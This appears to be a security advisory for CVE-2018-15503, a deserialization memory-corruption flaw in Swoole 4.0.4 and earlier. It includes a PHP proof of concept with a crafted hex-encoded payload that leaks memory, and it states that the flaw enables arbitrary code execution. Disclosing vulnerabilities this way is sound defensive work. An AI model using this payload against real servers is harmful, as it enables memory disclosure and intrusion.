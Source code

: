 # CVE-2018-15503: Memory corruption via deserialization in Swoole
[![](https://img.shields.io/badge/Attack%20Vector-Remote-red?style=flat-square)]() [![](https://img.shields.io/badge/Privileges%20Required-None-red?style=flat-square)]() [![](https://img.shields.io/badge/User%20Interaction-No-red?style=flat-square)]()

__Vendor:__ Swoole<br>
__Vendor URL:__ https://www.swoole.co.uk<br>
__Versions affected:__ Swoole <= 4.0.4<br>
__Discovered by:__ Juan Manuel Fernandez ([@TheXC3LL](https://twitter.com/thexc3ll))<br>
__Public fix:__ Yes<br>
__Proof of Concept:__ Yes ([ref](https://github.com/X-C3LL/PoC-CVEs/tree/master/CVE-2018-15503))<br>
## Summary
The unpack implementation in Swoole version 4.0.4 lacks correct size checks in the deserialization process. An attacker can craft a serialized object to exploit this vulnerability and cause a memory corruption.

## Details
Proof of concept to leak 255 bytes:

```php
<?php
	$data = "e802ea7b02ea7b02227b0a010800737464436c617373018b0470726f7037ff0a010800737464436c617373018fc10037130a010800737464436c617373018ff1003713454f46";
	$obj = new \Swoole\Serialize();
	$sor = hex2bin($data);
	$ser = $obj->unpack($sor);
	echo "[+] Swoole Unserialized:\n";
	var_dump($ser);
	echo "[+] Memory Leaked:\n";
	$keys = key(get_object_vars($ser[1]));
	echo bin2hex($keys);
	echo "\n[+] Size: \n";
	echo strlen($keys);
?>
```
## Impact
This vulnerability can be abused to bypass server mitigations and execute arbitrary code.

## Recommendation
Update to last version.

## Timeline
* 14/08/2018 - Reported vulnerability to vendor
* 15/08/2018 - Fix released in Github

#

[![](https://img.shields.io/badge/www-blackarrow.net-E5A505?style=flat-square)](https://www.blackarrow.net) [![](https://img.shields.io/badge/twitter-@BlackArrowSec-00aced?style=flat-square&logo=twitter&logoColor=white)](https://twitter.com/BlackArrowSec) [![](https://img.shields.io/badge/linkedin-@BlackArrowSec-0084b4?style=flat-square&logo=linkedin&logoColor=white)](https://www.linkedin.com/company/blackarrowsec/)
